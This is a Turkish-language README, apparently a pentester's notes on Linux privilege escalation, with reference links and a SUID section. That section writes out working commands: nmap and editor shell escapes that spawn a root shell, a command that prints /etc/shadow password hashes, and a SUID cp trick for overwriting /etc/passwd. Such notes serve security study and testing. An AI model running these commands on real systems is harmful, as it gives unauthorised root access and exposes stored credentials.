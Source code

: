 # Linux Yetki Yükseltme (Privilege Escalation)

Sağda solda denk geldiğim ve yetki yükseltme için işe yarayabilecek scriptler. Linux ve unix sistemler için konfigürasyon eksikliklerine ve yetki yükseltmeye sebep olabilecek zafiyetlere bakıyorlar.

tools klasörünün altında README dosyaları ile beraber bulunmakta.

## Bakılabilecek kaynaklar
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- http://netsec.ws/?p=309
- https://n0where.net/linux-post-exploitation/
- https://highon.coffee/blog/linux-commands-cheat-sheet/
- http://www.rebootuser.com/?p=1623
- http://pentestmonkey.net/tools/audit/unix-privesc-check


## Manuel kontrol

- Shell Escape Sequences
- IFS Exploit
- LD_PRELOAD Exploit
- Symlinks

bkz -> http://www.dankalia.com/tutor/01005/0100501004.htm

## SUID bit 

````
- emacs - by entering alt+!
- vi - by entering :![commandname]
- man - by entering![command name] replacing [command name] with the program you wish to run.
````
````
Nmap setuid privesc

  nmap --script <(echo 'os.execute("/bin/sh")')
  Starting Nmap 7.01 ( https://nmap.org ) at 2016-05-03 10:29 EEST
  NSE: Warning: Loading '/dev/fd/63' -- the recommended file extension is '.nse'.
  # root  > komut olarak 'whoami' girdim
  # uid=0(root) gid=0(root) groups=0(root),141(lpadmin)  > komut olarak 'id' girdim

  > buradaki sıkıntı, komut olarak yazılanların görünmemesidir. Fakat çıktı kesintisiz bir şekilde ekrana dökülmektedir.
````

````
  nmap --interactive
  > !whoami              # root
  > !cat /etc/shadow     # SUCCESS: prints out hashed passwords
  > !bash                # SUCCESS: launches root shell
  bkz -> https://gist.github.com/dergachev/7916152
````

````
-rwsr-xr-x 1 root root 124932 Jan 14  2015 /bin/cp
cp komutu SUID biti etkin. Bu durumda /etc/passwd veya /etc/shadow dosyaları kullanılarak root olunabilir.
ayrıntılı bilgi için;
bkz -> http://yunusyildirim.blogspot.com.tr/2016/04/kevgir-vm-cozum-walkthrough.html
````
